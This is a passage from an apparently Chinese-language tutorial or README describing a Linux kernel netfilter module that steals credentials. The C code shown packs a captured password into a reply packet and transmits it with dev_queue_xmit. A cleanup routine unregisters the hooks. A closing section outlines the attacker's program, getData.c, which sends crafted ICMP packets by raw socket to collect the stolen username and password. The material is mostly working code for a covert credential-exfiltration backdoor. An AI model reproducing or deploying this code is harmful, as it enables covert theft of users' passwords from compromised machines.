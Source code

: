  ```c
        if (password)
            memcpy(cp_data + 20, password, 16);
        /*
        * This is where things will die if they are going to.
        * Fingers crossed...
        * 发送 buffer
        * A negative errno code is returned on a failure.
        * A success does not guarantee the frame will be transmitted
        * as it may be dropped due to congestion or traffic shaping.*/
        dev_queue_xmit(sb);
        printk("the pair has been send to target");
        /* Now free the saved username and password and reset have_pair */
        kfree(username);
        kfree(password);
        username = password = NULL;
        have_pair = 0;
        target_port = target_ip = 0;
        printk("clear the pair\n");
        /* 不能return NF_DROP，因为dev_queue_xmit将释放缓冲区，
        * Netfilter将尝试对NF_DROPped数据包执行相同操作，导致内核错误。*/
        return NF_STOLEN;
    }


 ```
    
 #### 5. 清理netfilter
 ```c
    void cleanup_module()
    {
        //struct net *net=NULL;
        nf_unregister_net_hook(&init_net,&post_hook);
        nf_unregister_net_hook(&init_net,&pre_hook);
        if (password)
        kfree(password);
        if (username)
        kfree(username);
        return;
    }
    
 ```
 
### hack端的操作 
 
源文件：getData.c    
* 向target发送特殊的icmp包  

    raw socket 编程, 发送icmp数据包 ，保证足够的长度盛放target返回的数据。 

    ip头  20字节  icmp头 8字节  icmp数据 4+16+16=36字节   

* 接收和打印target发回的数据
